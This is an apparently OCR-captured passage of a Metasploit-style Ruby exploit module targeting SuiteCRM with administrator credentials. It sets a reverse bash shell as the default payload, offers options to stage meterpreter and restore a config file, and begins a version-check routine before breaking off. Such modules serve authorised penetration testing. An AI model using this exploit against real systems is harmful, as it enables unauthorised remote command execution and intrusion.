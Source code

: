                   'Arch' => ARCH_CMD,
                  'Platform' => 'unix',
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/unix/reverse_bash'
                  }
                }
              ]
            ],
            'Notes' =>
            {
              'Stability' => [CRASH_SAFE],
              'SideEffects' => [ARTIFACTS_ON_DISK, IOC_IN_LOGS],
              'Reliability' => [REPEATABLE_SESSION]
            },
            'Privileged' => true,
            'DisclosureDate' => '2021-04-28',
            'DefaultTarget' => 0
          )
        )

        register_options(
          [
            OptString.new('TARGETURI', [true, 'The base path to SuiteCRM', '/']),
            OptString.new('USER', [true, 'Username of user with administrative rights', 'admin']),
            OptString.new('PASS', [true, 'Password for administrator', 'admin']),
            OptBool.new('RESTORECONF', [false, 'Restore the configuration file to default after exploit runs', true]),
            OptString.new('WRITABLEDIR', [false, 'Writable directory to stage meterpreter', '/tmp']),
            OptString.new('LASTNAME', [false, 'Admin user last name to clean up profile', 'admin'])
          ]
        )
      end

      def check
        authenticate unless @authenticated
        return Exploit::CheckCode::Unknown unless @authenticated

        version_check_request = send_request_cgi(
          {
            'method' => 'GET',
            'uri' => normalize_uri(target_uri.path, 'index.php'),
            'keep_cookies' => true,
            'vars_get' => {
              'module' => 'Home',
              'action' => 'About'
            }
          }
        )

        return Exploit::CheckCode::Unknown("#{peer} - Connection timed out") unless version_check_request

        version_match = version_check_request.body[/
          Version
          \s
          \d{1} # Major revision
          \.
          \d{1,2} # Minor revision
          \.
          \d{1,2} # Bug fix release
          /x]
